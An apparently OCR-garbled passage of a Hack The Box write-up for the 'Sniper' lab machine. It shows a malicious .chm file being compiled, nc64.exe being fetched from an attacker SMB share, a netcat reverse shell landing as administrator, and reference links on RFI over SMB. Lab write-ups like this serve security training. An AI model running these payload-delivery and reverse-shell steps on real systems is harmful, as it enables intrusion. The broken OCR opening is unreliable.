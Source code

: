 4. When all files are created we need to switch over to a Windows-box and compile it 'm in with chris shell. I guess I have to explote this vulnerability "Microsoft Compiled HTML Help / Uncompiled .chm File - XML External Entity Injection ", but i don't get success with my .chm file, i'm in the right placdo the .chm-file.
    C:\Users\PlayerThree\htb\machines\sniper> "C:\Program Files (x86)\HTML Help Workshop\hhc.exe" expl.hpp
    Microsoft HTML Help Compiler 4.74.8702

    Compiling C:\Users\PlayerThree\htb\machines\sniper\expl.chm


    Compile time: 0 minutes, 1 second
    1     Topics
    0     Local links
    0     Internet links
    0     Graphics


    Created C:\Users\PlayerThree\htb\machines\sniper\expl.chm, 10835 bytes
    Compression decreased file by 10835 bytes.

5. Upload our malicious chm-file to sniper.htb c:\docs, as hinted in note.txt (Drop it here when you're done with it.), and quickly
   run the file to execute the payload. Grab root.txt.
    PS C:\Docs> copy //10.10.14.10/pub-share/nc64.exe nc64.exe
    PS C:\Docs> copy //10.10.14.10/pub-share/expl.chm expl.chm
    PS C:\Docs> .\expl.chm

    root@p3:/opt/htb/machines/sniper# nc -lvnp 4400
      listening on [any] 4400 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.151] 49681
      Microsoft Windows [Version 10.0.17763.678]
      (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
      sniper\administrator
    C:\Users\Administrator\Desktop>type root.txt
      5624****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

RFI + SMB
  https://medium.com/@minimalist.ascent/remote-file-include-using-samba-shares-6fa76dfeb4ce
  http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html

nc64.exe
  https://www.youtube.com/watch?v=PJXb2pK8K84&t=1155
  (found by searching for 'windows reverse' on https://ippsec.rocks/)
